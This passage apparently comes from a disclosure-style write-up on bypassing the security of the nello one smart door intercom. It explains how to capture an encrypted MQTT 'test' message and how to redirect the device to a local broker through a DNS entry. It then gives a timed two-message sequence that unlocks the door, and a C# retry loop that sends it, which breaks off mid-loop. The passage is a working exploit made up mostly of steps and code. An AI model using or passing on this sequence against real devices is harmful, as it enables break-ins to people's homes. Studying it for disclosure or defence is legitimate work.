 ```/nello_one/{second deviceid}/map/JA...oMf0=\n```  
At some point, the nello backend will send an encrpyted message to the "test" topic.  
Capture it!  
Even the fact, that the "test topic" message will change over time - as mentioned above - doesn't matter.  
Only one single valid test message is needed.  
(I even used a very old test message, which I've captured a year ago)  

Enable the new DNS HOST A entry, re-connect nello to the local MQTT broker.  

**2. The security bypass sequence**

**Send mqtt message #1**  
/nello_one/{your deviceid #2}/test/{intercepted test message}\n

Wait ~500ms

**Send mqtt message #2**  
/nello_one/{your deviceid #2}/door/**""\n** (can be even another valid door message)

The combination of both messages, in the right order with the right delay-time in between, will force nello to bypass any security verifications and leads to the wished result: **the door lock gets unlocked**. 

It works, because nello frequently sends a message to the "map" topic, indicating it is waiting for a connection and is ready to start the connection establishment process (our chance!).  
To send the "unlock" security bypass sequence only once, will not work everytime.  
Because nello first responds, after it sent the "map" message.  
To overcome this problem, it would be the best solution to wait until nello sent a "map" message (<2 s).
For simplification and other test reasons, I just continue sending the sequence multiple times, until nello responses with an "n_ack" (or until a cancellation limit is reached, for other reasons..).

```
 // We try a max send sequence of 15 times
 // In avg. nello opened my lock on the third try
 while (!isExpectedResponseReceived && counter < 15)
 {
     // Send magic payload to test topic
     
     await mqttService.SendMessageAsync(string.Format("/nello_one/{0}/test/", nelloDeviceId), testTopicMagicPayload);
     
     // Delay - in my case - necessary
     // Give nello some time to prepare for the next message
     // Maybe you need to increase your delay value (depends also on your network)
     
     await Task.Delay(500);
     
     // Send magic payload to door topic
     
     await mqttService.SendMessageAsync(string.Format("/nello_one/{0}/door/", nelloDeviceId), doorTopicMagicPayload);
     